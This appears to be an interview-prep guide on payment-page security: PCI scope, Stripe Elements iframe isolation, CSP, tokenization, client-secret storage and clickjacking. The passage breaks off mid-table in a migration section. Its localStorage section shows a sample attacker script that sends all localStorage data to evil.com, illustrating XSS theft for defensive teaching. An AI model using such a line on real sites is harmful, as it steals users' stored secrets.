



# 02. Payment Security & PCI Compliance

Interview-depth answers for payment system frontend security: PCI DSS scope reduction, tokenization mechanics, Content Security Policy, clickjacking defense, and the browser-level isolation model that keeps raw card data out of your JavaScript environment. Answers target senior/staff engineers who have shipped or audited a production checkout integration.

---

## Q: What is PCI DSS scope, and how does using a hosted payment field solution like Stripe Elements or Braintree's Hosted Fields reduce the scope of your application's PCI compliance obligations?

**Problem framing:** PCI DSS (Payment Card Industry Data Security Standard) is a contractual requirement from the card networks — Visa, Mastercard, Amex — that mandates security controls for any system that stores, processes, or *transmits* raw cardholder data (Primary Account Number, CVV, expiry). "Scope" means the set of systems, people, and processes subject to those controls. The higher the scope level, the more expensive the audit. Getting the scope wrong — failing to include a system that touches card data — is a compliance failure that can result in fines or being banned from accepting card payments entirely.

**Approach:**

PCI DSS organizes merchants into four levels based on annual transaction volume, and maps them to Self-Assessment Questionnaire (SAQ) types. The key distinction for frontend engineers:

| SAQ Type | Who qualifies | Rough scope |
|----------|--------------|-------------|
| **SAQ A** | Fully outsourced card processing; merchant's page never sees raw PAN | ~22 controls |
| **SAQ A-EP** | Your JS runs on the payment page, but card capture is outsourced | ~191 controls |
| **SAQ D** | You store, process, or transmit raw card data yourself | ~300+ controls |

The moment a raw PAN enters your JavaScript environment — even transiently, even in a variable you immediately discard — you are in SAQ D or SAQ A-EP territory. Every server that received that HTTP request is in scope. Every log that captured that request body is in scope. SAQ D compliance requires quarterly penetration tests, a dedicated security officer, and a formal on-site audit for large merchants.

Stripe Elements and Braintree Hosted Fields keep raw card data out of your origin entirely. The card number field the user types into is rendered inside a **cross-origin iframe** served from Stripe's domain (`js.stripe.com`). Your JavaScript cannot read the iframe's contents due to the browser's same-origin policy. Your server never receives a card number. What you receive instead is a **PaymentMethod ID** — an opaque server-side token like `pm_1Abc...` that represents the card Stripe has already validated and vaulted.

This architecture qualifies you for **SAQ A** — the lightest compliance tier. Your servers, your logs, your CDN, your analytics pipeline — none of them touched a PAN, so none of them are in PCI scope for cardholder data.

**Tradeoffs:** SAQ A is not zero-effort — you still need to ensure your checkout page isn't served over HTTP, that your dependencies aren't compromised (preventing script injection that could exfiltrate card data from Stripe's UI), and that your server correctly handles the token. The alternative of building your own vault (SAQ D) gives maximum control and avoids Stripe's per-transaction fees, but the compliance burden is enormous — realistic only for payment processors themselves. For all but a tiny fraction of companies, the SAQ A path via hosted fields is the correct engineering and business decision.

---

## Q: How does Stripe Elements prevent your page from ever touching raw card data? Walk through the technical mechanism — what is rendered in your DOM, what lives in the Stripe iframe's origin, and what is exchanged between the two contexts via `postMessage`.

**Problem framing:** This question tests whether you understand *why* the isolation works, not just *that* it works. Knowing the browser mechanism is critical for reasoning about what an attacker could and could not do if they injected malicious JavaScript into your page.

**Approach:**

When you call `elements.create('card')` and mount it, Stripe injects a `<div>` placeholder into your DOM. Inside that div, Stripe's SDK inserts an `<iframe>` with `src="https://js.stripe.com/..."`. The iframe's origin is `js.stripe.com` — completely different from your checkout page at `yoursite.com`.



**The key invariant:** The actual card number only ever travels between the iframe's JavaScript context (origin: `js.stripe.com`) and Stripe's API server over HTTPS. Your page's JavaScript has no access to the iframe's DOM or JS heap — `document.getElementById('stripe-iframe').contentDocument` throws a cross-origin error. Even if an attacker injects code into your page, they cannot reach across the origin boundary into the iframe.

**`postMessage` messaging:** The parent page and iframe communicate exclusively via `window.postMessage`. Stripe's SDK sends messages like `{type: 'stripe_element_change', empty: false, complete: true, brand: 'visa', error: null}` — metadata about field state, never the card value itself. When `stripe.confirmCardPayment()` is called, the SDK sends a message to the iframe telling it to submit its collected data directly to Stripe's API, bypassing your origin entirely.

**What your JavaScript receives:**
- `onChange` events: `{ complete: boolean, brand: 'visa'|'mastercard'|..., error: StripeError|null }` — useful for UX, contains no PAN
- `createPaymentMethod` result: `{ paymentMethod: { id: 'pm_...', card: { brand, last4, exp_month, exp_year } } }` — safe to log, safe to send to your server

**Tradeoffs:** This architecture means you cannot programmatically pre-fill the card number field from JavaScript (e.g. for a "test this card" developer shortcut) — the iframe's input is write-protected from the parent. Stripe provides test-mode card numbers that users type in manually. The `postMessage` channel is authenticated by Stripe's SDK using origin checks on both sides, preventing a malicious `postMessage` from a rogue script on your page from triggering a submission.

---

## Q: Why can't you simply style a cross-origin iframe with CSS from the parent page, and how do payment providers like Stripe solve this problem while keeping card data isolated? What are the trade-offs of their "appearance" configuration APIs?

**Problem framing:** Cross-origin iframes are isolated at the DOM level — you cannot reach into their shadow and apply `color`, `font-family`, or `border` rules from a parent `<style>` block. For payment providers, this creates a genuine tension: the iframe must stay isolated to protect card data, but an unstyled, visually inconsistent card input field tanks user trust and conversion.

**Approach:**

The browser's same-origin policy prevents a parent page from accessing `iframe.contentDocument.querySelector('input').style`. Any CSS you write in your page's stylesheet simply does not apply to elements rendered inside a cross-origin iframe. This is fundamental — it's not a CORS header problem you can configure away. The iframe has its own rendering context.

Stripe solves this with a **serialized style configuration object** passed at initialization time, before the iframe renders:

```ts
const elements = stripe.elements({
  appearance: {
    theme: 'stripe', // 'night' | 'flat' | 'none'
    variables: {
      colorPrimary: '#6366f1',
      colorBackground: '#ffffff',
      colorText: '#1a1a2e',
      colorDanger: '#df1b41',
      fontFamily: 'Inter, system-ui, sans-serif',
      borderRadius: '8px',
      spacingUnit: '4px',
    },
    rules: {
      '.Input': {
        border: '1px solid #e2e8f0',
        boxShadow: '0 1px 3px rgba(0,0,0,0.1)',
      },
      '.Input:focus': {
        borderColor: '#6366f1',
        boxShadow: '0 0 0 3px rgba(99,102,241,0.15)',
      },
      '.Label': {
        fontWeight: '600',
        fontSize: '14px',
      },
    },
  },
})
```

Stripe's SDK serializes this object and passes it to the iframe via `postMessage` during initialization. The iframe's own JavaScript applies the styles to its internal elements. The parent page never has DOM access — it only sends a configuration payload.

**What this achieves vs. what it cannot:**
- ✅ Background color, border, border-radius, padding, font-size, color, box-shadow
- ✅ Pseudo-class states: `:focus`, `:hover`, `::placeholder`
- ✅ Custom fonts loaded from *your* CDN (via the `fonts` array — covered in depth Q8)
- ❌ Arbitrary CSS properties not whitelisted by Stripe's sanitizer
- ❌ CSS variables injected at runtime after mount (must be set at `elements()` call time)
- ❌ Responsive media queries that reference the parent page's viewport (the iframe has its own viewport)
- ❌ CSS animations that reference parent-page keyframe definitions

**Tradeoffs:** The appearance API is powerful but **declarative, not imperative** — you describe what you want at init time, and Stripe decides what to honor. Stripe whitelists acceptable CSS properties on their end to prevent a parent from sending malicious CSS that could exfiltrate data (e.g., CSS-based timing attacks or `content: attr(value)` exfiltration). This means edge-case styling requirements — unusual `clip-path`, CSS grid layouts within the field, highly specific pseudo-element styling — may not be achievable. The practical workaround is designing the surrounding checkout UI to complement whatever the iframe can render, rather than fighting the constraints. Some teams choose a `theme: 'none'` base and then apply Stripe's `rules` comprehensively for maximum control within the allowed set.

---

## Q: Explain how a Content Security Policy (CSP) should be configured for a checkout page that loads Stripe.js. Which directives are required, which are commonly misconfigured (and why), and what does Stripe itself require you to allow that might feel uncomfortable from a security standpoint?

**Problem framing:** CSP is a browser mechanism that restricts which resources a page can load and execute. On a checkout page — arguably the highest-value attack target in your application — a strong CSP is the second layer of defense against XSS that could exfiltrate card data or manipulate the payment flow. Misconfigured CSP is worse than no CSP: it creates a false sense of security while leaving holes.

**Approach:**

A production CSP header for a Stripe checkout page looks like this:

```
Content-Security-Policy:
  default-src 'none';
  script-src 'self' https://js.stripe.com;
  frame-src https://js.stripe.com;
  connect-src 'self' https://api.stripe.com https://api.yoursite.com;
  img-src 'self' data: https://q.stripe.com;
  style-src 'self' 'nonce-{server_generated_nonce}';
  font-src 'self' https://fonts.gstatic.com;
  report-uri https://csp-reporting.yoursite.com/report;
```

**Directive breakdown:**

**`script-src 'self' https://js.stripe.com`** — Required. Stripe.js must be loaded from `js.stripe.com` directly; do not self-host it (Stripe uses dynamic versioning and fraud signals built into their CDN). If you use a nonce-based policy, every inline script needs the nonce attribute.

**`frame-src https://js.stripe.com`** — Required. This is what allows Stripe's iframe to render. Without it, the card input simply doesn't load. This is the directive most commonly omitted by developers who forget that `default-src 'none'` blocks frames.

**`connect-src https://api.stripe.com`** — Required. When the iframe submits card data to Stripe, it makes an XHR/fetch to `api.stripe.com`. Even though this originates from the iframe (cross-origin from your page), some CSP implementations propagate the parent page's CSP. Include it to be safe.

**`img-src https://q.stripe.com`** — Stripe Radar and fraud signals load 1×1 telemetry pixels from `q.stripe.com`. Many teams block this, which silently degrades fraud detection without producing a visible error.

**The uncomfortable requirement — `https://js.stripe.com` in `script-src`:**

Stripe requires you to load their script from a CDN you don't control, meaning the integrity of your checkout page depends on Stripe not being compromised or serving malicious JS. This is the central CSP tradeoff with third-party payment SDKs. The mitigations are:
1. Use `integrity` attribute on the `<script>` tag (Subresource Integrity) if Stripe provides a stable hash — they don't for Stripe.js because they update it continuously
2. Trust Stripe's security posture and their own CSP + deployment pipeline
3. Accept this is the same trust model you have with your own CDN

**Common misconfiguration — `unsafe-inline`:**

```
# BAD: negates most XSS protection
script-src 'self' https://js.stripe.com 'unsafe-inline';
```

This is typically added because a developer found an inline `<script>` that broke after CSP was added. The correct fix is to move inline scripts to external files or use a nonce. `unsafe-inline` in `script-src` means CSP provides almost no XSS protection.

**Common misconfiguration — missing `report-uri`:**

Without `report-uri` (or the newer `report-to`), CSP violations are silent — they block resources but you never learn about it. Always add a reporting endpoint to catch both attacks and your own configuration mistakes.

**Tradeoffs:** A strict `default-src 'none'` CSP is the correct posture but requires enumerating every external resource. Use `Content-Security-Policy-Report-Only` first, deploy your page, let real traffic generate violation reports for a few days, then tighten the policy based on what you actually need. Never write the final policy from documentation alone — real page loads always reveal surprises (third-party analytics, chat widgets, A/B testing SDKs).

---

## Q: What is tokenization in the context of card payments? Walk through the lifecycle: the user enters a card number, Stripe creates a `PaymentMethod` object — what is sent to your server, what is never sent, and how does your server use that token to charge the card?

**Problem framing:** Tokenization is the core mechanism that makes PCI SAQ A possible. Without understanding it precisely, engineers make errors like sending the PaymentMethod ID in the wrong direction, building redundant server flows, or misunderstanding what their server actually needs to do to complete a charge.

**Approach:**



**What is sent where:**

| Data | Goes to Your Server | Goes to Stripe API |
|------|--------------------|--------------------|
| Card number (PAN) | ❌ Never | ✅ iframe → Stripe directly |
| CVV | ❌ Never | ✅ iframe → Stripe directly |
| Expiry | ❌ Never | ✅ iframe → Stripe directly |
| `pm_1Abc...` (PaymentMethod ID) | ✅ Yes — your server sends this to Stripe | ✅ Your server → Stripe |
| `pi_1Xyz...` (PaymentIntent ID) | ✅ Created by your server | ✅ Your server creates it |
| `last4`, `brand` | ✅ Safe to store for display | ✅ Stripe returns it |

**PaymentMethod vs. PaymentIntent — the distinction matters:**

A `PaymentMethod` is a reusable vault reference to a card. A `PaymentIntent` represents a specific charge attempt for a specific amount. You can attach the same `PaymentMethod` to multiple `PaymentIntent`s (for saved cards). The charge only happens when the `PaymentIntent` is confirmed with a `PaymentMethod` and your server's secret key.

**Your server's role:**
1. Receives `{ paymentMethodId, amount, currency, orderId }` from the browser
2. Validates the order exists, belongs to the current user, hasn't already been paid
3. Creates a `PaymentIntent` via Stripe's server-side API using your `sk_live_...` secret key
4. Returns the result — never needs to touch card data

**Why your server secret key must never reach the browser:** The secret key (`sk_live_...`) is what authorizes charges against the PaymentMethod. If it leaked to the browser, an attacker could charge any previously tokenized card. The Stripe publishable key (`pk_live_...`) is safe for browser use — it can only tokenize cards, not charge them.

**Tradeoffs:** The two-step flow (browser tokenizes → server charges) is slightly more complex than a single-step flow, but it's mandatory for security. The alternative — browser directly confirms the PaymentIntent using the client secret — is also legitimate but requires your server to create the PaymentIntent first and return the client secret to the browser, which has its own security considerations (covered in Q6).

---

## Q: What is the risk of storing a Stripe `PaymentIntent` client secret in `localStorage` vs. a session cookie vs. an in-memory variable, and what happens if a malicious script on your page reads the client secret?

**Problem framing:** The `client_secret` of a PaymentIntent (format: `pi_1Abc..._secret_xyz...`) is a credential. It grants the ability to confirm the PaymentIntent from the browser — which means completing the charge, or under some configurations, changing the payment method. Storing it carelessly is the frontend equivalent of leaving your API key in a public repo.

**Approach:**

The client secret's capabilities are bounded: it can only confirm *this specific* PaymentIntent for *this specific* amount. It cannot be used to create new charges, access other PaymentIntents, or read card data. But confirming a PaymentIntent someone else created can mean: charging a card the attacker chose for the amount the legitimate user intended to pay, potentially redirecting a legitimate payment.

**`localStorage` — highest risk:**

`localStorage` persists indefinitely across sessions and is readable by any JavaScript on the same origin. An XSS vulnerability in any part of your site (your blog, your marketing page on the same origin, a compromised npm package) can exfiltrate every `localStorage` key with two lines of code:

```js
// Attacker's injected script
fetch('https://evil.com/steal?data=' + JSON.stringify(localStorage))
```

The client secret would persist for days if the user doesn't return to complete checkout. **Never store client secrets in `localStorage`.**

**`sessionStorage` — moderate risk:**

`sessionStorage` is cleared when the tab closes and is not shared across tabs. It still reads from JavaScript on the same origin, so XSS on the same tab during the checkout session can access it. Better than `localStorage`, but still suboptimal.

**`HttpOnly` session cookie — better:**

An `HttpOnly` cookie cannot be read by JavaScript at all — only sent as a header on HTTP requests. But the pattern here would be to store the client secret on the server (keyed to the user's session) and have the server send it to the browser only when confirming the payment. This reduces the surface area dramatically.

**In-memory variable — correct:**

```ts
// PaymentIntentContext.tsx
const [clientSecret, setClientSecret] = useState<string | null>(null)

useEffect(() => {
  // Fetch once on mount, hold in React state only
  api.post('/payment-intent').then(r => setClientSecret(r.clientSecret))
}, [])
```

React state lives in the JS heap for the lifetime of the component. It is not accessible from other browser contexts, does not persist across page loads, and is garbage collected when the component unmounts. An XSS payload running in the same call stack can still read it (via closure or by calling React's internal fiber tree APIs), but the window of exposure is narrow — only while the checkout component is mounted, in the same tab.

**If a malicious script reads the client secret:** The attacker can call `stripe.confirmCardPayment(stolenSecret, { payment_method: 'pm_their_card' })` — confirming the payment with *their* card, or with a stolen card, for the victim's order amount. This is a real attack. The mitigations:
1. Enforce `amount` and `currency` server-side — the PaymentIntent amount is set on the server and cannot be changed from the browser
2. Use short-lived client secrets: set `PaymentIntent.expires_at` and create a new one close to actual checkout
3. Associate the PaymentIntent with the authenticated user's session on your server — if the wrong user confirms it, your webhook validation catches the mismatch

**Tradeoffs:** In-memory storage is the correct choice but requires the client secret to be re-fetched if the user refreshes the page (handle with a server endpoint that returns the existing PaymentIntent if one exists for the session). The cookie approach adds server complexity but is worth it for high-security contexts.

---

## Q: How do you prevent clickjacking on a checkout page, and why is `X-Frame-Options: DENY` insufficient on its own for a page that also embeds legitimate third-party iframes (like Stripe Elements)?

**Problem framing:** Clickjacking attacks embed your checkout page inside an invisible iframe on a malicious site, overlaid over something the user intends to click. The attacker tricks the user into clicking "Pay Now" without realizing it. A checkout page where clickjacking causes an unintended purchase — or where sensitive UI interactions are captured — is a real risk.

**Approach:**

`X-Frame-Options: DENY` is a response header that instructs browsers not to render the response inside any `<frame>`, `<iframe>`, or `<object>`. `DENY` blocks all framing; `SAMEORIGIN` allows framing only from the same origin. These are blunt instruments — they apply to the entire page.

The problem: `X-Frame-Options: DENY` on your checkout page prevents your checkout page from being embedded in *any* iframe. But your checkout page itself embeds Stripe Elements — which are cross-origin iframes *on your page*. This does not create a conflict: `X-Frame-Options` governs how your page is framed by others, not how your page frames others. So `DENY` on your page is technically fine alongside Stripe's iframes.

**The real insufficiency of `X-Frame-Options` alone:**

1. **Browser support is inconsistent** — `X-Frame-Options` is not a formal standard; the `ALLOW-FROM` directive (allow framing from a specific origin) is not supported in Chrome or Firefox. CSP's `frame-ancestors` is the correct modern replacement.

2. **CSP `frame-ancestors` is more powerful:**

```
Content-Security-Policy: frame-ancestors 'none';
```

This is the modern equivalent of `X-Frame-Options: DENY`. Unlike XFO, CSP is a W3C standard, handles multiple origins correctly, and takes precedence when both headers are present. Use both for maximum compatibility:

```
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none';
```

3. **JavaScript-level framebusting as defense-in-depth:**

```ts
// Detect if page is being framed by an unexpected origin
if (window.top !== window.self) {
  // We're inside an iframe
  if (window.top?.location.origin !== window.location.origin) {
    // Being framed by a different origin — potential clickjacking
    document.body.innerHTML = ''  // Blind the page
    window.top.location = window.location.href  // Break out
  }
}
```

This is defense-in-depth, not a primary control — an attacker can disable JavaScript or use `sandbox` attribute on the outer iframe to prevent the bust.

4. **Stripe's iframes don't bypass your `frame-ancestors`:** `frame-ancestors` controls who can frame *your* page, not who your page can frame. There is no conflict.

**The scenario that IS tricky — a page you legitimately want framed:**

If your checkout is embedded in a native mobile webview or a parent-frame single-page app on the same domain, `frame-ancestors 'none'` will break it. Use `frame-ancestors 'self' https://your-native-app-origin` in that case — be as specific as possible.

**Tradeoffs:** Some analytics tools or customer support tools want to frame your checkout for screen recording or co-browsing. Refuse: any tool that frames your checkout page expands the clickjacking surface and should be told to use alternative integration patterns (e.g., event-based instead of screen framing). The security benefit of `frame-ancestors 'none'` outweighs the convenience of allowing these tools.

---

## Q: Stripe Elements renders card input fields inside cross-origin iframes. Your designer wants pixel-perfect custom fonts loaded from your CDN inside those fields. Walk through exactly what the browser's cross-origin isolation rules allow, what Stripe's `fonts` configuration option does under the hood, and what you cannot achieve regardless of configuration — then propose a design compromise that satisfies both security and branding requirements.

**Problem framing:** Custom typography is a real design requirement — a checkout page styled with Inter or your brand's custom typeface but with a field that falls back to system-ui is visually jarring and erodes trust. But the iframe isolation model makes font injection non-trivial. This is a concrete collision between browser security and product polish.

**Approach:**

The browser's cross-origin isolation rules say: the iframe at `js.stripe.com` has its own browsing context, its own CSS cascade, and cannot inherit fonts declared in your parent page's `@font-face` rules. If you load Inter in your parent CSS:

```css
@font-face {
  font-family: 'Inter';
  src: url('/fonts/inter.woff2') format('woff2');
}
```

That declaration lives in your page's stylesheet scope. The Stripe iframe has no access to it. The input inside the iframe will render in whatever font Stripe's own CSS specifies as its fallback.

**What Stripe's `fonts` option does under the hood:**

Stripe accepts a `fonts` array on the `elements()` call:

```ts
const elements = stripe.elements({
  fonts: [
    {
      family: 'Inter',
      src: 'url(https://cdn.yoursite.com/fonts/inter-var.woff2)',
      weight: '100 900',
      display: 'swap',
    },
  ],
  appearance: {
    variables: {
      fontFamily: 'Inter, system-ui, sans-serif',
    },
  },
})
```

Stripe's SDK serializes the `fonts` array and passes it to the iframe via `postMessage`. The iframe's own JavaScript constructs a `@font-face` rule in its own document and appends it to its own stylesheet. The iframe then makes a font request to your CDN (`cdn.yoursite.com`) — this is a cross-origin font load from the iframe's perspective, so your CDN must send `Access-Control-Allow-Origin: *` (or specifically `https://js.stripe.com`) on the font files.

```
# CDN response header for font files:
Access-Control-Allow-Origin: *
Cache-Control: public, max-age=31536000, immutable
```

Without CORS headers on your font CDN, the browser blocks the font load silently, and the field falls back to the system font.

**What you cannot achieve regardless of configuration:**

- **Variable font features controlled by CSS `font-variation-settings`** — Stripe's appearance API does not expose this property
- **Font loading based on user language/script** — you cannot conditionally load different font subsets based on detected input
- **Per-field font overrides** — all fields within an Elements instance share the `fonts` configuration; you cannot make the card number field use one font and the expiry field use another
- **Web fonts served via `@import` in your page CSS** — they must be declared in Stripe's `fonts` array directly, not inherited
- **Fonts served over `file://` or `localhost` in production** — CORS rules apply; your font CDN must be a real public origin

**Design compromise that works:**

Since you can load WOFF2 from your CDN into the iframe, the practical answer is to align your checkout page's font stack precisely with what you pass to Stripe's `fonts` array. The fonts will render identically inside and outside the iframe:

1. Use a single variable font file (one woff2 serves all weights and styles)
2. Host it on your font CDN with CORS headers
3. Declare it in both your page's `@font-face` and in Stripe's `fonts` array
4. Use the same `font-family` reference in your CSS and in Stripe's `appearance.variables.fontFamily`

If your brand font is licensed for subsetting, generate a subset covering Latin + common symbols — the iframe will load the same subset file, keeping font delivery fast without a licensing violation.

**Tradeoffs:** Some font licenses prohibit serving the file with `Access-Control-Allow-Origin: *` (which effectively makes it public). In those cases, use a CORS-safe substitute (Google Fonts, or a variable system font that closely matches your brand font) inside Stripe Elements, while using the licensed font everywhere else. The visual difference in a 48×16px input field with 16px text is imperceptible to most users.

---

## Q: A penetration tester flags that your checkout page makes a `fetch` to `api.yoursite.com/payment-intent` from the browser, and the response contains the PaymentIntent `client_secret`. They argue this is a security vulnerability. How do you evaluate that claim? Under what conditions is it acceptable to expose a client secret to the browser, and what server-side and frontend controls must be in place to make this safe?

**Problem framing:** This is a nuanced finding. The pen tester is applying a heuristic — "secrets shouldn't be in API responses" — without considering the bounded capability of a Stripe client secret. Your job in an interview (or in a real code review) is to evaluate the claim precisely, neither dismissing it nor accepting it uncritically.

**Approach:**

**Evaluating the claim — is it a vulnerability?**

A PaymentIntent client secret is not a general-purpose secret key. Its capabilities are narrowly scoped:
1. Confirm *this specific* PaymentIntent — paying the *fixed* amount set server-side, for the *fixed* currency, to the *fixed* merchant
2. Retrieve the status of this PaymentIntent
3. Attach a payment method to this PaymentIntent (if not already set)

It cannot: create new PaymentIntents, charge arbitrary amounts, access other customers' data, or retrieve stored card numbers.

**So: exposing the client secret to the browser is intentional Stripe design.** Stripe's own documentation shows the client secret being returned to the browser for use in `stripe.confirmCardPayment()`. The pen tester's finding is a false positive *if and only if* the following controls are in place:

**Server-side controls that make this safe:**

```ts
// Server: POST /payment-intent
async function createPaymentIntent(req: AuthenticatedRequest) {
  // 1. User must be authenticated
  const userId = req.auth.userId  // from verified JWT/session

  // 2. Amount is server-determined, never client-controlled
  const cart = await Cart.findByUser(userId)
  if (!cart || cart.items.length === 0) throw new Error('No active cart')

  // 3. PaymentIntent is bound to this user — stored in your DB
  const intent = await stripe.paymentIntents.create({
    amount: cart.totalCents,        // server-computed, not from request body
    currency: 'usd',
    customer: user.stripeCustomerId,
    metadata: { userId, cartId: cart.id },
  })

  // 4. Store the association: intentId → userId
  await db.paymentIntents.create({ intentId: intent.id, userId, cartId: cart.id })

  // 5. Return ONLY the client_secret — not the intent ID alone (it's less sensitive)
  return { clientSecret: intent.client_secret }
}
```

**Critical server-side control — webhook validation:**

When Stripe sends `payment_intent.succeeded`, your webhook handler must verify:

```ts
// Webhook: POST /webhooks/stripe
async function handlePaymentSucceeded(intent: Stripe.PaymentIntent) {
  const userId = intent.metadata.userId
  const cartId = intent.metadata.cartId

  // Verify the intent belongs to the claimed user
  const record = await db.paymentIntents.findOne({ intentId: intent.id })
  if (!record || record.userId !== userId) {
    logger.error('PaymentIntent userId mismatch — potential fraud', { intentId: intent.id })
    return  // Do not fulfill the order
  }

  // Verify the amount matches what was ordered
  const cart = await Cart.findById(cartId)
  if (intent.amount !== cart.totalCents) {
    logger.error('Amount mismatch', { expected: cart.totalCents, received: intent.amount })
    return
  }

  await Order.create({ userId, cartId, paymentIntentId: intent.id })
}
```

**Frontend controls:**

- Store the client secret in-memory only (React state, not `localStorage`)
- Clear it immediately after `stripe.confirmCardPayment()` resolves
- Set a component-level timeout: if the user doesn't complete payment within 30 minutes, call `/payment-intent/invalidate` and create a new one

**When it IS a vulnerability:**

The pen tester's finding becomes valid if:
- The endpoint doesn't require authentication (`/payment-intent` returns a secret without a logged-in user)
- The amount is passed by the client (`POST /payment-intent { amount: 1 }` creates a $0.01 PaymentIntent)
- Client secrets are stored in `localStorage` or sent in server-side logs
- The webhook handler doesn't verify that the fulfilled `userId` matches the PaymentIntent's metadata

**Tradeoffs:** The correct response to the pen tester is: "Here are the five controls that bound the blast radius of a stolen client secret. Here's the threat model. Here's what an attacker *could* do with it and what they *cannot* do." If any of those controls are absent, the pen tester is right and you have real work to do.

---

## Q: You are migrating from a legacy checkout form that directly POSTed raw card data to your own server (PCI SAQ D scope) to a Stripe Elements integration (PCI SAQ A scope). Describe the full migration strategy: how do you run both implementations in parallel for a staged rollout, how do you ensure no raw card data ever hits your new infrastructure, and how do you validate the cutover is complete from a compliance standpoint?

**Problem framing:** This is a live system migration with compliance stakes. A botched rollout could mean: raw card data hitting your new infrastructure (expanding scope instead of reducing it), a payment failure in production (revenue loss), or an incomplete audit trail (compliance gap). The migration must be reversible, observable, and verifiable.

**Approach:**



**Phase 0 — Audit current scope:**

Before building anything, enumerate every system that touches raw card data today:
- Which server endpoints receive `card_number`, `cvv`, `expiry` in request bodies
- Which log aggregators (Datadog, Splunk) might have captured card data in request logs
- Which databases store card data or tokenized card data
- Which third-party services receive card data (old payment processor, fraud tools)

This defines your "de-scope" checklist — every item on this list must be eliminated or validated as cleaned up before claiming SAQ A.

**Phase 1 — Build Stripe integration behind a feature flag:**

Build the complete Stripe Elements checkout as a separate React component (`<StripeCheckout>`), running alongside the legacy `<LegacyCheckout>`. The feature flag determines which is shown:

```tsx
function CheckoutPage() {
  const useStripe = useFeatureFlag('stripe_elements_checkout')
  
  return useStripe
    ? <StripeCheckout />
    : <LegacyCheckout />
}
```

**Critical:** The Stripe component and the legacy component must be completely separate rendering paths with no shared code that could cause card data to leak between them.

**Phase 2 — Staged rollout with observation:**

Rollout by user cohort, not random percentage, for easier debugging:

| Stage | Cohort | Duration | Rollback trigger |
|-------|--------|----------|-----------------|
| 1% | Internal employees | 1 week | Any payment failure |
| 5% | New users (no payment history) | 1 week | Error rate > 0.5% |
